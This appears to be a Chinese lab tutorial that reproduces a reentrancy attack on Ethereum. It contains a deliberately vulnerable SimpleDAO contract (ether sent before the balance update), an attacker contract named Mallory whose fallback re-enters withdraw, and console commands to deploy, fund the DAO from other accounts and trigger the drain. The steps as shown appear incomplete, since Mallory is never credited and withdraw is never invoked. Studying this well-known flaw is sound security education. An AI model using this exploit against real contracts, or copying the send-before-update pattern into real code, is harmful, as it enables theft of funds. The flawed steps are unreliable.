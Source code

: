 # 准备合约
```
pragma solidity ^0.4.2;

contract SimpleDAO {   
  mapping (address => uint) public credit;
    
  function donate() payable {
    credit[msg.sender] += msg.value;
  }
    
  function withdraw(uint amount) {
    if (credit[msg.sender]>= amount) {
      bool res = msg.sender.call.value(amount)();
      credit[msg.sender]-=amount;
    }
  }  

  function queryCredit(address to) view returns (uint){
    return credit[to];
  }
}

contract Mallory {
  SimpleDAO public dao;
  address owner;

  function Mallory(SimpleDAO addr){ 
    owner = msg.sender;
    dao = addr;
  }
  
  function getJackpot() { 
    bool res = owner.send(this.balance); 
  }

  function() payable { 
    dao.withdraw(dao.queryCredit(this)); 
  }
}
```

# 将合约装载到链上
首先部署simpleDAO, 比如我这里得到的合约实例地址为0x5F3e0Cc753B825d83AFBBcFB4fbF966A6BAf7990。

然后在部署Mallory合约的时候，以上面的合约地址为参数，例如，mal为合约，malins为合约实例，则：
`malins=mal.new('0x5F3e0Cc753B825d83AFBBcFB4fbF966A6BAf7990',{data:bytecode, from:eth.coinbase, gas:10000000})`

# 给simpleDAO充值
`daoins.donate.sendTransaction({from:eth.coinbase,value:web3.toWei(3,'ether')})`
找多几个账号充值，以拿取别人的金额。

# 发动攻击
先设置defaultAccount，不然在调用的时候会显示invalid address。然后就可以发动攻击。
```
eth.defaultAccount=eth.coinbase
malins.getJackpot()
```



